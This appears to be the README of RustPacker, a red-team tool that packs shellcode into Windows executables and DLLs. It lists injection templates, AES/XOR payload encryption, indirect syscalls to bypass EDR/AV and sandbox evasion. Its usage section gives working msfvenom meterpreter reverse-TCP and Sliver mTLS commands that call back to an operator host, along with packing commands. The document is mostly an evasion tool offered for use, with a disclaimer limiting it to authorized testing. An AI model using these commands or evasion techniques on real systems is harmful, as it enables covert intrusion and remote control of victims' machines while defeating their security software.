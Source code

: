 <h1 align="center">
<br>
<img src=img/logo_craiyon.png height="400" border="2px solid #555">
<br>
</h1>

## Overview

RustPacker is a template-based shellcode packer designed for penetration testers and red team operators. It converts raw shellcode into Windows executables or DLLs using various injection techniques and evasion methods.

### Key Features

- **Multiple Injection Templates**: Choose from various injection techniques (CRT, APC, Fibers, etc.)
- **Encryption Support**: XOR and AES encryption for payload obfuscation
- **Syscall Evasion**: Indirect syscalls to bypass EDR/AV detection
- **Flexible Output**: Generate both EXE and DLL files
- **Cross-Platform**: Works on any OS with Docker/Podman support
- **Framework Compatible**: Works with Metasploit, Sliver, and custom shellcode

## Quick Start

### Using Docker/Podman (Recommended)

```bash
# Place your shellcode file in the shared folder
cp your_shellcode.raw shared/

# Build the container
podman build -t rustpacker .

# runtime
podman run -it --name rustpacker -d rustpacker

# Pack your shellcode example - see options for more details
podman exec -it rustpacker RustPacker \
  -f /usr/src/RustPacker/shared/<your_shellcode>.raw \
  -i ntcrt \
  -e aes \
  -b exe \
  -t <somefilename>.exe or .dll

# grab packed shellcode
podman cp rustpacker:/usr/src/RustPacker/shared .

# teardown
podman stop rustpacker
podman system prune -a
```

## Usage Examples

### Generate Shellcode

**Metasploit (msfvenom):**
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.1.100 LPORT=4444 EXITFUNC=thread -f raw -o payload.raw
```

**Sliver:**
```bash
# In Sliver console
generate --mtls 192.168.1.100:443 --format shellcode --os windows --evasion
```

### Packing Examples

**Basic EXE with AES encryption:**
```bash
rustpacker -f shared/payload.raw -i ntcrt -e aes -b exe -t notepad.exe
```

**DLL with XOR encryption:**
```bash
rustpacker -f shared/payload.raw -i ntapc -e xor -b dll
```

**Custom output location:**
```bash
rustpacker -f shared/payload.raw -i syscrt -e aes -b exe -o shared/custom_name.exe
```

## Available Templates

| Template | Description | Injection Method | Syscalls |
|----------|-------------|------------------|----------|
| `wincrt` | High-level Windows API injection | Remote Process | ❌ |
| `ntcrt` | Low-level NT API injection | Remote Process | ❌ |
| `syscrt` | Indirect syscalls injection | Remote Process | ✅ |
| `ntapc` | APC-based execution | New Process | ❌ |
| `winfiber` | Fiber-based execution | Current Process | ❌ |
| `ntfiber` | NT API + Fiber execution | Current Process | ❌ |
| `sysfiber` | Indirect syscalls + Fiber execution | Current Process | ✅ |

### Template Details

**Process Injection Templates:**
- Use with `-t <process_name>` to specify target process
- Default target: `dllhost.exe`
- Compatible with: `wincrt`, `ntcrt`, `syscrt`

**Self-Execution Templates:**
- Execute shellcode within the packed binary
- Compatible with: `ntapc`, `winfiber`, `ntfiber`, `sysfiber`

## Command Line Options

```
RustPacker [OPTIONS]

OPTIONS:
    -f, --file <FILE>           Input shellcode file (raw format)
    -i, --injection <TEMPLATE>  Injection template [wincrt|ntcrt|syscrt|ntapc|winfiber|ntfiber|sysfiber]
    -e, --encryption <TYPE>     Encryption method [xor|aes]
    -b, --binary <TYPE>         Output binary type [exe|dll]
    -t, --target <PROCESS>      Target process name (for injection templates)
    -s, --sandbox <DOMAIN>      Sandbox Domain Pinning (detonate only on specified domain)
    -o, --output <PATH>         Custom output path and filename
    -h, --help                  Print help information
    -V, --version               Print version information
```

## Detection Evasion

RustPacker implements several evasion techniques:

- **Indirect Syscalls**: Bypass user-mode hooks (syscrt, sysfiber templates)
- **Encryption**: XOR and AES payload encryption
- **Process Injection**: Hide execution in legitimate processes
- **Template Variety**: Multiple execution methods to avoid signatures
- **Rust Compilation**: Native binaries with reduced detection surface

## License & Legal Notice

**⚠️ IMPORTANT DISCLAIMER ⚠️**

This tool is provided for **educational and authorized penetration testing purposes only**.

- Usage against targets without prior mutual consent is **illegal**
- Users are responsible for complying with all applicable laws
- Developers assume no liability for misuse or damages
- Only use in authorized environments with proper permission
